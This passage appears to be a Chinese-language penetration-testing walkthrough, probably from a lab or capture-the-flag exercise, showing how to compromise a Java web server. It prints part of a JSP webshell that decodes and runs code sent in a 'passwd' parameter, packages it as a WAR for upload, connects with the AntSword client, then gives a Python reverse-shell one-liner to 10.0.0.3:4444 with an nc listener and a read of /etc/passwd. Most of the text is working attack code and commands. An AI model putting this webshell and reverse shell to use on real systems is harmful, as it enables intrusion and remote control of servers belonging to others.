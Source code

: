 ```
%>  
<%  
    String cls = request.getParameter("passwd");  
    if (cls != null) {  
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);  
    }  
%>
```

2。将webshell.jsp打包为zip，再修改扩展名为war

```
zip webshell webshell.jsp  
mv webshell.zip webshell.war
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

3。上传webshell

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

上传成功，使用蚁剑连接

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

由于个人用不习惯蚁剑的shell，反弹shell到攻击机

1。攻击机监听4444端口

```
nc -lvvp 4444
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2。使用蚁剑的shell反向连接到攻击机，或用插件反向连接shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

反弹成功，找找提权信息

```
cat /etc/passwd
```
